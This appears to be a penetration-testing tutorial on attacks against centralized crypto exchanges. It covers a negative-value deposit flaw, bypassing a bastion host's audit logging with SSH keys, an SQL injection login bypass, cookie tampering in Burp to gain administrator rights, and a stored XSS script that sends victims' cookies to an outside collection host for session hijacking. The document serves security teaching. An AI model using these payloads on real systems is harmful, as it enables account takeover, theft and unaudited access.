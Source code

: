 ![Image text](/pic/back.png)
# Risks in Cefi
Penetration testing for CeFi platforms involves addressing information leakage, account security, system security, and business scenario security risks.

### Introduction:
CeFi penetration testing refers to a comprehensive security assessment of the systems, networks, and applications of centralized financial institutions by simulating real hacker attacks. Through such testing, potential vulnerabilities can be discovered and fixed, and network security defenses can be strengthened to ensure that the assets and data of financial institutions and users are adequately protected. We're going to outline some of the penetration steps involved with CeFi.

### Order book value payment vulnerability:
In a certain exchange's deposit application, the value range of recharge data is not validated, leading to a negative value chargeback vulnerability in transactions.
![Image text](/pic/cefi1.png)

Step 1: Inputting a negative value.

![Image text](/pic/cefi2.png)

Step 2: After clicking on the confirmation, the two negative values can be reversed and turned into positive values.

![Image text](/pic/cefi3.png)

The recharge interface lacks proper validation and filtering of numerical symbols, which poses a certain security risk.

### Bastion host bypass：
Step 1: First, access Server_A 192.168.31.18 through the bastion host. Since the root password is managed by the bastion host, the root password for Server_B 192.168.31.232 is unknown. 

Employees can establish passwordless login by using the following command: ssh-keygen -b 2048.

![Image text](/pic/cefi4.webp)

Step 2: Access Server_B 192.168.31.232 once again through the bastion host. 

Import the generated public key from the previous step into the "/root/.ssh/authorized_keys" file on 192.168.31.232.

![Image text](/pic/cefi5.avif)

Step 3: By following the above steps, accessing Server_B can be done by first accessing Server_A through the bastion host, and then directly SSHing from Server_A to Server_B.

![Image text](/pic/cefi6.png)

While operations on Server_A can be audited through the bastion host (through session recording), let's assume that Server_A is not managed by the bastion host, and only Server_B is managed. In this case, bypassing the bastion host would result in all administrative operations on Server_B not being audited or recorded.

### Arbitrary user login：
Login bypass is one of the impacts of SQL injection, where an attacker can log in to a vulnerable web application without valid credentials. Attackers exploit SQL injection vulnerabilities to bypass the login functionality and gain access to administrator accounts without a valid password.

![Image text](/pic/cefi7.png)

Step 1: Enter the account name as "administrator" and set an arbitrary password. At this point, start capturing network traffic (packet capture).

![Image text](/pic/cefi8.png)

Step 2: After sending the packet, the login page displays a login failure message.

![Image text](/pic/cefi9.png)

Step 3: Modify the username parameter to "administrator'--".

![Image text](/pic/cefi10.png)

Successfully logged into the system.

![Image text](/pic/cefi11.png)

Regardless of whether 'administrator' is a valid username, the response always returns true, and the '--' comments out the rest of the statement. In the mentioned query, since the condition "AND password = 'password'" is commented out, and the username is "administrator", it will log in to the administrator account. If one can determine a user's account, arbitrary user login can be performed.

### Unauthorized access：

![Image text](/pic/cefi12.png)

Step 1: In Burp Proxy, open Intercept and enable response interception.

![Image text](/pic/cefi13.png)

Step 2: Modify the cookie in the response settings from "Admin=false" to "Admin=true".

![Image text](/pic/cefi14.png)

At this point, the elevation of privileges from a regular user to an administrator level has occurred.

![Image text](/pic/cefi15.png)

You can now perform administrative actions in the management panel.

![Image text](/pic/cefi16.png)

### Cookie reuse：
Currently, there is an XSS vulnerability on the comment page, which allows for the theft of cookies when a victim user views that comment. 

Step 1: Inject XSS attack code into the comment section.

<script>

fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {

method: 'POST',

mode: 'no-cors',

body:document.cookie

});

</script>

Step 2: Fill in the relevant email information and submit.

![Image text](/pic/cefi17.png)

Step 3: Use Burp Collaborator to listen for the victim's cookie information.

![Image text](/pic/cefi18.png)

At this point, you have obtained the value of the victim's cookie in the POST request packet.

![Image text](/pic/cefi19.png)

Step 4: Replace the captured victim's cookie with the obtained value.

![Image text](/pic/cefi20.png)

Successful login to the victim's account.

![Image text](/pic/cefi21.png)
